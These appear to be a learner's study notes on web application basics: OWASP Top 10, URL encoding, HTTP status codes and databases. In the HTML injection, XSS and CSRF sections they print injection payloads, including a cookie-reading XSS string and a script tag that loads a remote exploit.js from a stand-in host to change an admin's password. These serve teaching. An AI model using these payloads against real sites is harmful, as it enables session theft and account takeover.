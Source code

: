 # Intro to Web Applications

## Web App Layout

|Category |	Description|
|:--------|:------------|
|Web Application Infrastructure 	|Describes the structure of required components, such as the database, needed for the web application to function as intended. Since the web application can be set up to run on a separate server, it is essential to know which database server it needs to access.|
|Web Application Components 	|The components that make up a web application represent all the components that the web application interacts with. These are divided into the following three areas: UI/UX, Client, and Server components.|
|Web Application Architecture 	|Architecture comprises all the relationships between the various web application components.|

Infra setups models

- Client-Server
- One Server
- Many Servers - One Database
- Many Servers - Many Databases

### OWASP Top 10

|No. 	|Vulnerability|
|:--------|:------------|
|1. |	Broken Access Control|
|2. |	Cryptographic Failures|
|3. 	|Injection|
|4. 	|Insecure Design|
|5. 	|Security Misconfiguration|
|6. 	|Vulnerable and Outdated Components|
|7. 	|Identification and Authentication Failures|
|8. 	|Software and Data Integrity Failures|
|9. 	|Security Logging and Monitoring Failures|
|10. |	Server-Side Request Forgery (SSRF)|


### URL Encoding
|Character |	Encoding|
|:--------|:------------|
|space 	|%20|
|! |	%21|
|" 	|%22|
|# 	|%23|
|$ 	|%24|
|% 	|%25|
|& 	|%26|
|' 	|%27|
|( 	|%28|
|) 	|%29|

## Sensitive Data Exposure

This is about the exposure of sensitive details like comments in the html code on a site. You can view the source code of a webpage to inspect for these or use a proxy. 

## HTML Injection
The following example is a very basic web page with a single button "Click to enter your name." When we click on the button, it prompts us to input our name and then displays our name as "Your name is ...":

If no input sanitization is in place, this is potentially an easy target for HTML Injection and Cross-Site Scripting (XSS) attacks. We take a look at the page source code and see no input sanitization in place whatsoever, as the page takes user input and directly displays it.

To test for HTML Injection, we can simply input a small snippet of HTML code as our name, and see if it is displayed as part of the page. We will test the following code, which changes the background image of the web page:

```
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

## XSS

XSS is very similar to HTML Injection in practice. However, XSS involves the injection of JavaScript code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of XSS:

|Type 	|Description|
|:--------|:------------|
|Reflected XSS 	|Occurs when user input is displayed on the page after processing (e.g., search result or error message).|
|Stored XSS 	|Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).|
|DOM XSS| 	Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title).|

We can try to inject the following DOM XSS JavaScript code as a payload, which should show us the cookie value for the current user:
```
#"><img src=/ onerror=alert(document.cookie)>
```

## CSRF

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs. The attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).

## Back End Servers

A back-end server is the hardware and operating system on the back end that hosts all of the applications necessary to run the web application. It is the real system running all of the processes and carrying out all of the tasks that make up the entire web application. The back end server would fit in the Data access layer.

## Web Servers

|Code |	Description|
|:--------|:------------|
|Successful responses 	|
|200 OK |	The request has succeeded|
|Redirection messages 	|
|301 Moved Permanently 	|The URL of the requested resource has been changed permanently|
|302 Found 	|The URL of the requested resource has been changed temporarily|
|Client error responses 	|
|400 Bad Request 	|The server could not understand the request due to invalid syntax|
|401 Unauthorized 	|Unauthenticated attempt to access page|
|403 Forbidden| 	The client does not have access rights to the content|
|404 Not Found |	The server can not find the requested resource|
|405 Method Not Allowed 	|The request method is known by the server but has been disabled and cannot be used|
|408 Request Timeout 	|This response is sent on an idle connection by some servers, even without any previous |request by the client|
|Server error responses 	|
|500 Internal Server Error 	|The server has encountered a situation it doesn't know how to handle|
|502 Bad Gateway |	The server, while working as a gateway to get a response needed to handle the request, received an invalid response|
|504 Gateway Timeout| 	The server is acting as a gateway and cannot get a response in time|

Common technologies: apache, nginx, IIS

## Databases

SQL - Relational store data in tables, rows, and columns

NoSQL - non-relational databases do not use tables, rows, columns, primary keys or schemas. Instead stores using vairious storage models. Dependent on the data stored. 
